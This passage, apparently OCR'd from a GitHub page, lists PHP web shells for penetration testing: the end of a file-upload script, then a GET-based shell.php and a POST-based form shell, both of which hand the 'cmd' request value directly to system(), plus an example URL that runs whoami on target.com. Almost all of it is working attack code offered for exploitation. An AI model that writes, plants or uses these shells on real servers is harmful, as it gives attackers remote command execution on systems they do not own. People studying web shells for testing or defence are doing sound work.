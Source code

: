 ```php
}
?>
</body>
</html>
```
A basic PHP script for file uploading. Useful for testing upload functionality or exploitation through insecure file handling.

---

### 🔧 Simple GET-Based PHP Shell (`shell.php`)
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```
Allows command execution via URL parameter, e.g., `http://target.com/shell.php?cmd=whoami`

---

### 🔧 POST-Based PHP Shell (`shell-post.php`)
```php
<!doctype html>
<html>
<head><title>CMD Shell with POST</title></head>
<body>
<form action="<?php echo $_SERVER['PHP_SELF'];?>" method="post">
CMD:<br>
<input name="cmd" type="text"><br>
<input name="submit" type="submit" value="cmd"><br>
</form>
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
</body>
</html>
```
Executes system commands submitted via a POST form input. Used for command injection tests or exploitation.


